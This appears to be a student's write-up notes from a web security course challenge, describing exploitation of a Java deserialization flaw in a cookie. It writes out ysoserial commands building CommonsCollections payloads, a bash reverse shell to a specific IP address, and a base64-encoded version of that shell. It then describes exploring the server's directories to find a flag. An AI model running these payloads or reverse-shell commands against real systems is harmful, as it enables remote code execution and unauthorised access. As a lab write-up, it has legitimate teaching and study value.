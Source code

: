 CommonCollections5 works!

- this is a java deserialization vuln, the item to deserialize is set as a cookie. Tried to decode with base64 and can see some java strings, then tried with SerializationDumper https://github.com/NickstaDB/SerializationDumper to see more info, but still no clear gadgets
- tried to inject custom serializations using yoserial first. tried with username (removing maxlength=40) but this bricked my siri setup (only returned "0"), oops. sorry
- then tried to replace the cookie with a yoserialization payload. Set up a requestbin and executed a curl command to the requestbin:

```
java -jar ysoserial-all.jar CommonsCollections1 "curl requestbinurl.com" | base64 -w0
```

- but no CURL request, nothing came in. Then tried with different versions of CommonsCollections, for 2 and 4 got the error "class not found" (so I am getting somewhere?) and for 5 I saw a request pop up in requestbin, nice
- tried to set up a reverse shell using a digitalocean VPS. Can't use piping directly (needed to redirect shell in- and outputs), so base64 encoded the following payload:
```
# start reverse shell to my VPS nc listener
bash -i >& /dev/tcp/104.248.91.239/999 0>&1
```
- converted this to base64 and then used yoserial with CommonsCollections5 to run
```
java -jar ysoserial-all.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDQuMjQ4LjkxLjIzOS85OTkgMD4mMQo=}|{base64,-d}|{bash,-i}" | base64 -w0
```

- now I am in, can execute shell commands on the websec server. nice.
- looking around, the interesting stuff is probably in /var/websec, can access this dir but cannot list it. annoying"
- tried to look around for a bit, scan and bruteforce some dirs. I remember that there was a flag for social in "/var/websec/wwwstudent_12" can access this directory, nice!
    - but the same problem again. annoying. cannot list any files or folders
    - tried to use `find` to find files matching the "flag{}" pattern, but does not work if you cannot list dirs. tried to enter other students directories but cannot because I am not the right group
        - used `groups` to find out which group I actually am
            - am in group wwwchallenge_06, nice. that must be siri
            - took a look at the flag for social again. see that the flag was in level01, would /var/websec/wwwstudent_12/level06 work?
                - it does, really nice. Tried flag.txt and this time it worked

- please don't mind me looking around the scoreboard PHP files. Too bad there are no bonusses anymore...
